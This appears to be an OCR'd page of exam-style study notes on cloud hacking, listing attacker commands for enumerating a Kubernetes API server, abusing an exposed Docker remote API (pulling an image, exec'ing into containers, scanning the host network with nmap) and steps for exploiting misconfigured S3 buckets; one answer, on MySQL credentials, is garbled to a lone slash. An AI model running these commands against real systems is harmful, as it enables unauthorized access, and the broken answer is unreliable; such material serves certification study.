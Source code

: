 \subsubsection{Cloud Hacking}
\begin{itemize}
    \item Which of the following information can be enumerated when an attacker runs the command \begin{verbatim}
        ps -ef | grep apiserver
    \end{verbatim} in Kubernetes etcd?
    \begin{itemize}
        \item Location of the etcd server and PKI information
    \end{itemize}
    \item Which of the following is the docker command used by an attacker to create a container from an image to exploit the docker remote api?
    \begin{itemize}
        \item Get an image of Alpine Linux:\\
        \verb|docker -H <Remote IP:Port> pull alpine|
        \item Create a container from the image using the following command:\\
        \verb| docker -H <Remote IP:Port> run -t -d alpine|
        \item Run the ls command inside the container to retrieve files stored on the Docker host:\\
        \verb|docker -H <Remote IP:Port> exec modest_goldstine ls|
        \item Use Nmap to scan the host's internal network to identify running services:\\
        \verb|docker -H <docker host> run --network=host --rm marsmensch/nmap -ox <IP Range>|
        \item Retrieve MySQL database credentials?\\
        \verb|/|
        \item Steps to exploit misconfigured AWS S3 buckets:
        \begin{enumerate}
            \item Identify S3 buckets
            \item Setup the AWS command-line interface
            \item Extract access keys
            \item Configure aws-cli
            \item Identify vulnerable S3 buckets

\end{enumerate}
\end{itemize}
\end{itemize}
